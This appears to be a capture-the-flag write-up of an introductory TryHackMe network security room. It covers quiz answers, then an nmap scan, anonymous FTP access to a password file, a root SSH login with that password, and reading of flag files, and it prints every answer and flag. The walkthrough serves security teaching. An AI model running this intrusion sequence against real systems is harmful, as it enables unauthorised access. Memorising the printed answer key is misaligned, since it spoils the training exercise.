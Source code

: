 ```yaml
---
title:  Network Security 
author: CYB3RM3
name: CYB3RM3 | Network Security 
date: 2022-05-03 21:42:57 +0100
categories: [TryHackMe, Introduction to Offensive Security]
tags: [Red Team, Network]
---
```


Learn about network security, understand attack methodology, and practice hacking into a target server.

THM Room [https://tryhackme.com/room/intronetworksecurity](https://tryhackme.com/room/intronetworksecurity)


## TASK 1 : Introduction
### What type of firewall is Windows Defender Firewall?
"Host firewall: Unlike the firewall appliance, a hardware device, a host firewall is a program that ships as part of your system, or it is a program that you install on your system. For instance, MS Windows includes Windows Defender Firewall, and Apple macOS includes an application firewall; both are host firewalls."

Answer : host firewall

## TASK 2 : Methodology 
### During which step of the Cyber Kill Chain does the attacker gather information about the target? 
Answer : recon

## TASK 3 : Practical Example of Network Security 
###  What is the password in the secret.txt file?

Sanned the target IP with nmap :

```console
root@ip-10-10-141-49:~# nmap 10.10.244.107

Starting Nmap 7.60 ( https://nmap.org ) at 2022-05-03 20:37 BST
Nmap scan report for ip-10-10-244-107.eu-west-1.compute.internal (10.10.244.107)
Host is up (0.0030s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:B7:A6:3A:45:FD (Unknown)
```
{: .nolineno }

Then tried to log to the FTP with anonymous. I found a secret.txt file with a password :

```console
root@ip-10-10-141-49:~# ftp 10.10.244.107
Connected to 10.10.244.107.
220 (vsFTPd 3.0.3)
Name (10.10.244.107:root): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp        425351 Apr 06 11:22 2680-0.txt
-rw-r--r--    1 ftp      ftp           356 Apr 06 11:22 2680.epub
-rw-r--r--    1 ftp      ftp        251857 Apr 06 11:22 55317-0.txt
-rw-r--r--    1 ftp      ftp           358 Apr 06 11:22 55317.epub
-rwxr-xr-x    1 ftp      ftp           214 Apr 06 11:22 backup.sh
-rw-r--r--    1 ftp      ftp            23 Apr 06 11:22 secret.txt
226 Directory send OK.
ftp> get secret.txt
local: secret.txt remote: secret.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for secret.txt (23 bytes).
226 Transfer complete.
23 bytes received in 0.00 secs (35.0405 kB/s)
ftp> 
```
{: .nolineno }

 In another terminal :

```console
root@ip-10-10-141-49:~# cat secret.txt 
password: ABC789xyz123
```
{: .nolineno }

Answer : ABC789xyz123

### What is the content of the flag.txt in the /root directory?

Connect via SSH with previously found password :

```console
root@ip-10-10-141-49:~# ssh root@10.10.244.107
The authenticity of host '10.10.244.107 (10.10.244.107)' can't be established.
ECDSA key fingerprint is SHA256:IFP+sTfHTDm72Ta2zfK9XjKASr30+ya4ic/ApEIziio.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.244.107' (ECDSA) to the list of known hosts.
root@10.10.244.107's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-107-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue  3 May 19:38:54 UTC 2022

  System load:  0.15              Processes:             120
  Usage of /:   66.2% of 6.53GB   Users logged in:       0
  Memory usage: 25%               IPv4 address for eth0: 10.10.244.107
  Swap usage:   0%

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu Apr  7 07:53:28 2022 from 10.20.30.1
root@beginner-net-sec:~# ls
flag.txt  snap
root@beginner-net-sec:~# cat flag.txt 
THM{FTP_SERVER_OWNED}
root@beginner-net-sec:~# 
```
{: .nolineno }

Answer : THM{FTP_SERVER_OWNED}

### What is the content of the flag.txt in the /home/librarian directory?

Looking in the other user directory :

```console
root@beginner-net-sec:~# cd /home/librarian/
root@beginner-net-sec:/home/librarian# ls
flag.txt
root@beginner-net-sec:/home/librarian# cat flag.txt 
THM{LIBRARIAN_ACCOUNT_COMPROMISED}
```
{: .nolineno }

Answer : THM{LIBRARIAN_ACCOUNT_COMPROMISED}
